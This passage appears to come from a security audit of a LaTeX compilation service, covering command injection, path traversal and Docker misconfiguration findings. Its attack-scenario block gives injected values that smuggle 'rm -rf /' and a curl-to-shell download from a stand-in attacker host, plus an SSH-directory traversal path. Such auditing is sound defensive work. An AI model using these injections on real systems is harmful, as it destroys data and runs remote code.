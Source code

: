 3. **Unsanitized File Paths in Commands**
   - Multiple locations use user-provided paths directly in system commands
   - **Examples:**
     - LaTeX source files: `job.file` passed directly to compilation
     - Output directories: User-controlled `workDir` parameter
     - Engine selection: Unsanitized `job.engine` parameter

#### Attack Scenarios:
```bash
# Filename injection attack
filename="../../../etc/passwd;rm -rf /;.tex"

# Engine injection attack  
engine="pdflatex; curl attacker.com/evil.sh | sh;"

# Working directory traversal
workDir="../../../root/.ssh"
```

### 2. PATH TRAVERSAL VULNERABILITIES - CRITICAL ⚠️

**Severity:** CRITICAL  
**Location:** File handling throughout LaTeX system  
**CVSS Score:** 8.9

#### Insufficient Path Validation:

1. **Docker Volume Mounting**
   - File: `docker/Dockerfile.latex:28`
   ```dockerfile
   COPY . .
   ```
   - **Risk:** Entire source directory exposed to container
   - **Impact:** Sensitive file access, modification

2. **Temporary File Creation**
   - Temporary files created without proper sandboxing
   - User-controlled paths in `temp/latex` directory
   - **Risk:** Write files outside intended directory

3. **Output Path Control**
   - LaTeX compilation output paths not validated
   - **Risk:** Overwrite critical system files

**Note:** The existing `PathSecurityManager` in `src/security/path-security.js` provides good protection but is NOT integrated into LaTeX compilation workflows.

### 3. CONTAINER SECURITY ISSUES - CRITICAL ⚠️

**Severity:** CRITICAL  
**Location:** `docker/Dockerfile.latex`  
**CVSS Score:** 7.8

#### Docker Security Misconfigurations:
